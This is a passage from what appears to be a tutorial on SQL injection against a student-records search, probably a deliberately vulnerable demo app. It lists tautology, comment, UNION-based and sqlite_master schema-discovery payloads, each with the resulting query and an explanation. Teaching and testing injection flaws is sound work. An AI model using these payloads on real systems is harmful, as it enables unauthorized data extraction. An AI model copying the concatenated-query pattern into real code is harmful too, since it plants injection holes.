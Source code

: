 **Resulting SQL**:
```sql
SELECT * FROM students WHERE name LIKE '%' OR '1'='1%'
```

**What happens**: Returns all students regardless of name because `'1'='1'` is always true.

---

### 2. Comment Injection

**Attack**: Use SQL comments to ignore the rest of the query

**Input**:
```
' OR 1=1 --
```

**Resulting SQL**:
```sql
SELECT * FROM students WHERE name LIKE '%' OR 1=1 --%'
```

**What happens**: The `--` comments out everything after it, making the condition always true.

---

### 3. Union-Based Injection

**Attack**: Extract data from other tables

**Input in search**:
```
' UNION SELECT id, course, grade, semester, credits, credits FROM grades --
```

**Resulting SQL**:
```sql
SELECT * FROM students WHERE name LIKE '%' UNION SELECT id, course, grade, semester, credits, credits FROM grades --%'
```

**What happens**: Could potentially show grade data in the students view (depending on column compatibility).

---

### 4. Information Schema Exploitation

**Attack**: Discover database structure

**Input**:
```
' UNION SELECT name, sql, '', '', '', '' FROM sqlite_master WHERE type='table' --
```

**What happens**: Reveals the structure of all tables in the database.

---
